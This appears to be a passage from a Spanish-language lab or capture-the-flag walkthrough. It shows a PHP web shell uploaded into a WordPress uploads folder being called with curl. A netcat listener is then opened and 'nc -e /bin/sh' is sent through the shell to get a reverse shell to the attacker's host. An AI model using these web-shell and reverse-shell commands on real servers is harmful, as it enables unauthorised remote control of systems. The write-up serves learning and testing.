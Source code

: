 El exploit si funciona, ahora veamos como se puede llamar desde consola
```
curl -G http://192.168.109.171/wordpress/wp-content/uploads/2022/05/ulima.php --data-urlencode "cmd=id"
```
![image](https://user-images.githubusercontent.com/50930193/167021178-abbe0416-0295-4d34-be5c-a81882514341.png)

a sabienda de eso veamos de hacer una shell reversa con netcat, para ello lo primero que debemos hacer es establecer un listener en el puerto 4444
```
netcat -nlvp 4444
```
y ejecutando el comando
```
curl -G http://192.168.109.171/wordpress/wp-content/uploads/2022/05/ulima.php --data-urlencode "cmd=nc -e /bin/sh 192.168.109.170 4444"   
```
![image](https://user-images.githubusercontent.com/50930193/167022069-6dc1d2f8-5d92-4faa-822c-12c838dfb7fe.png)

Finalmente obtenemos una shell!
